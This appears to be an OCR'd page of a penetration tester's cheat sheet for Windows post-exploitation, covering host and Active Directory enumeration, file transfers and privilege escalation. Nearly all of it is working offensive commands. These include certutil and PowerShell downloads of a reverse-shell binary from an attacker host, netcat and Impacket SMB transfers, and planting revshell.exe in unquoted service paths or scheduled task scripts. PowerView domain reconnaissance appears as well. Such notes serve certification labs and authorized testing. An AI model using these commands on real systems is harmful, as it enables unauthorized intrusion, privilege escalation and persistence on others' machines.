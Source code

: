 - `ipconfig /all` 
	- Check `route print` & show active connections `netstat -ano`
- Applications: 
	- 32-bit: `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname` (Remove `select displayname` for full properties)
	- 64-bit: `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname` (Remove `select displayname` for full properties)
- `get-process`
	- Running processes `Powershell: Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
		- Look for services NOT installed in `System32`
	- Check binary permissions; `Powershell: icacls "C:\xampp\apache\bin\httpd.exe"
		- Look for `BUILTIN\Users:(F)` (Full Access for standard users)
- `Get-ObjectAcl -Identity objectorusername` 
	- Find `ActiveDirectoryRights` & `SecurityIdentifier`
	- Find "GenericAll":`Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights`
	- Convert SID: `Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104`
		- Alt: `"S-1-5-21-1987370270-658905905-1781884369-1104", S-1-5-21-1987370270-658905905-1781884369-503" | Convert-SidToName`
# File Transfers
Windows
- CMD: `certutil.exe -f -urlcache http://kaliIP/revshell.exe`
- Powershell: `iwr -uri http://192.168.xx.xxx/winPEASx64.exe -Outfile winPEAS.exe`
Kali
- `python3 -m http 80`
- Impacket - [Walkthrough]( https://www.youtube.com/watch?v=A5xZ05THaao) & 
	- `impacket-smbserver -smb2support stage .`
	- Share: `impacket-smbserver share ~/Tools/Share -smb2support -d` (add `-user username -password password`)
	- Windows Target, enter attacker IP: `\\192.168.xx.xxx\
- NetCat
	- `/usr/share/seclists/Web-Shells/FuzzDB/nc.exe`
	- Listener on target: `nc.exe -nvlp 4433 > unix-privesc-check`
	- On attacker, open nc to send: `nc -nv 192.168.target.machine 4433 < /usr/bin/unix-privesc-check`
# PrivEsc
[HackTricks Windows PrivEsc]( https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
- Run [WinPeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20240828-cfb5c8f6) (`~/Tools/Windows/winpeasx64.exe`)
	- Always check Watson responses (vulnerability list)
	- Look for unquoted service path --> rename revshell.exe and place in path, then run (is it scheduled? Start on reboot?)
- Check scheduled tasks: 
	- `schtasks /query /fo LIST /v /TN "Task name"`
		- Check "Run As User", "Task To Run" & "Repeat Every"
		- Start listener, then `echo revshell.exe >> scheduledtask.bat`
-  [Powersploit](https://github.com/PowerShellMafia/PowerSploit)
	- [PowerView.ps1](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview) (See Tools) - [Powerview README](https://powersploit.readthedocs.io/en/latest/Recon/)
		- `Import-module .\PowerView.ps1`
		- `Get-NetDomain`
		- `Get-NetUser` (lots of detail), `Get-NetUser "jeff"`
			- `Get-NetUser | select cn,pwdlastset,lastlogon`  
			- `Get-NetUser -SPN | select samaccountname,serviceprincipalname`
		- `Get-NetGroup | select cn`
			- `Get-NetGroup "Sales Department" | select member`
		- `Get-NetComputer`, `Get-NetComputer "host03"`
			- `Get-NetComputer | select operatingsystem,dnshostname`  
		- `Find-DomainShare`